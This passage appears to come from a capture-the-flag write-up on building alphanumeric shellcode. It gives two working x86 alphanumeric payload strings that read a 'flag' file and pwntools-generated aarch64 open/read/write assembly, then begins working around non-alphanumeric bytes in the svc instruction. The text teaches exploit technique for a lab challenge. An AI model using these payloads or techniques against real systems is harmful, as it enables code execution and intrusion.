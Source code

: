 The first edition is length 90: `'R[j3TYfi9WmWYAPX4\x7f0K<0k?0kC0KD0KE0C@0CB0KO0KP0KR0KX0KYhflagjWXHAg1vQZPP_VXS^ASZZPjT_PZWXZP'`. However, this shellcode is not easy to integrate due to fixed offset when self-modifying the shellcode.

Our second edition is length 88: `'j3TYfi9WmWYX,wP[4<0L3@0l3C0l3G0L3H0L3I0D3D0D3F0L3M0L3V0L3WhflagjWXHAg1vQZPP^jT_jTAZj(XZP'`. This shellcode will be our draft for final payload.

#### Learning `arm64v8` shellcode

We never write `aarch64` shellcode before, so the first step is to create a simple straightforward "orw" (stands for Open, Read, Write) shellcode. We used `pwntools` library and print out the assembly of `shellcraft.cat('flag')`.


```python
from pwn import *
context.arch = 'aarch64'
print(shellcraft.cat('flag'))

```

Then we get:


```
    /* push b'flag\x00\x00\x00\x00' */
    sub sp, sp, #16
    /* Set x0 = 1734437990 = 0x67616c66 */
    mov  x0, #27750
    movk x0, #26465, lsl #16
    stur x0, [sp, #16 * 0]
    /* call open('sp', 0, 'O_RDONLY') */
    mov  x0, sp
    mov  x1, xzr
    mov  x2, xzr
    mov  x8, #(SYS_open)
    svc 0
    /* call sendfile(1, 'x0', 0, 2147483647) */
    mov  x1, x0
    mov  x0, #1
    mov  x2, xzr
    /* Set x3 = 2147483647 = 0x7fffffff */
    mov  x3, #65535
    movk x3, #32767, lsl #16
    mov  x8, #(SYS_sendfile)
    svc 0

```

Now we need to transform the above assembly into a shellcode that uses alphanumeric bytes.

##### System call

The instruction `svc` in aarch64 stands for "supervisor call". It works like `syscall` in x86-64. However, if we look up section C3.2.3 of [aarch64 machine code table](https://github.com/CAS-Atlantic/AArch64-Encoding/blob/master/binary%20encodding.pdf), we know that the two most significant bytes is definitely not alphanumeric. Therefore, we must come up with a workaround. Note that our goal for now is to generate a `svc #257` instruction, whose machine code is `b'! \x00\xd4'`. We only have two invalid bytes (`b'\x00\xd4`).
